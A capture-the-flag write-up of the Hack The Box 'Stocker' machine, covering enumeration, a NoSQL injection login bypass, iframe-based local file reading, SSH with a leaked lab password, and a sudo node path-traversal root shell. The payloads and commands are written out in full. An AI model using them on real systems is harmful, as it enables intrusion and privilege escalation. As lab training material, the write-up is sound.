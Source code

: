```yaml
---
layout: post
title: "HTB: Stocker"
author: Andrew Cherney
date: 2023-07-16 11:44:17
tags: htb easy-box linux webapp nosqli xss
icon: "assets/icons/stocker.png"
post_description: "Webdevs will cry after seeing this box. Imagine sanitizing your json that interacts with your API, or not using a vulnerable login portal. A healthy lack of trust in webdevs is all you need to hack this box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $nmap -sC 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 10:51 CST
Nmap scan report for 10.10.11.196
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_http-title: Did not follow redirect to http://stocker.htb
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/stocker/Stocker_Front_Page" alt="Stocker_front_page" ext="png" trunc=600 %}

I look around and toss some scans at the site. There is clear reference to another site which serves as a shop, so I know there is some way to get to it. What ends up landing is my gobuster scan to find subdomains on the same host IP. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $gobuster vhost -u http://stocker.htb -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/02/25 12:05:55 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```

<h2>dev.stocker.htb</h2>

![dev login](/img/stocker/Stocker_dev_login.png)

Round 2: time for some more scans and enumeration. There happens to be a cookie associated to this subdomain, with a **connect.sid** variable. From what I can tell it is a cookie set in the initial connection by Express. 

<h3>noSQL</h3>

In testing for database frameworks I come across [this noSQL injection for a login portal](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) where if you send json with operators equal to null it bypasses the login check and lets you in. 

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 19
Origin: http://dev.stocker.htb
DNT: 1
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AtDuWaN_AP-vy7ZNHLP3D4vhJbpWFoDrt.aKM4RjmXYuVZrkQunrIYT00O8mug4QjJItsnc73l%2F2A
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

<h2>Stockers Store</h2>

{% include img_link src="/img/stocker/Stocker_stock_page" alt="store_page" ext="png" trunc=600 %}

Now we are met with a store page that gives us the functionality of adding items to a card and purchasing the items, then we have the option of viewing the purchase order. Inspecting the actual packet which sends the purchase request there is json which defines each item and a post request is then made to **/api/order**.

<h1>User as angoose</h1>

<h2>html injection: iframes</h2>

The purchase order could let us inject html and read local files with iframes. Let's try to use 

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8f","title":"<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1}]}
```

![purchase order etc passwd](/img/stocker/Stocker_iframe_etc_passwd.png)

Local file read attained. Now I can change the source to **src=file:///var/www/dev/index.js** and read the index file for any reference to databases or other gold nuggets.

![index.js](/img/stocker/Stocker_index_js.png)

Oh, well that is simple. User angoose with password **IHeardPassphrasesArePrettySecure**.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Stocker]
└──╼ $ssh angoose@stocker.htb
angoose@stocker:~$ cat user.txt
7721f67edaa172------------------
```

<h1>Root</h1>

<h2>Sudo perms</h2>

```bash
angoose@stocker:~$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ touch /usr/local/scripts/test.js
touch: cannot touch '/usr/local/scripts/test.js': Permission denied
```

GFTOBins has a sudo to root node command using <code>require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})</code> as the shell spawn within javascript. The last part to tie this together is using directory traversal to head to a writable directory. Creating a file named **shell.js** in the angoose home directory I run the sudo command: 

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../../home/angoose/shell.js
# cat /root/root.txt
2715c19b73755-------------------
```
